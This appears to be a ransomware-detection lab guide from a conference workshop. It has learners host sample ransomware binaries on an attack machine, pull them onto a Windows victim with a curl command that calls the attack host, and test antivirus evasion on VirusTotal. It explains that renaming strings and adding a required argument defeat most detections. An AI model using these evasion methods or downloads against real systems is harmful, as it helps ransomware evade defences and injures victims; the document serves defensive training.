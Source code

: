 # Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Now change directory into the notransomware directory.
4. Run the following command to serve the files for download.
`python3 -m http.server`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). Click the drop down in the top left of the side menu and select the WIN-VICTIM-HOST connection.
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
- Is a folder on the desktop called "rsac21-ransom" (If not, launch a command prompt and run `git clone `)
- Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)
2. Open a command prompt by clicking the search icon in the bottom left and typing `cmd`. The 
4. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://<NIX-ATTACK-HOST>:8000/test1.exe -o test1.exe`
5. Once you have this worked out, download all the files you created on the linux attack host just changing the file names.
  - test1.exe
  - test264.exe
  - test232.exe
  - test332-arg.exe
7. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator and select test1.exe.
4. Wait for the analysis. It will look something like this, but may have changed with all of the concurent uploads of a similar file.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just 3 detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scray in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test2.exe
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back with only 2 detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.


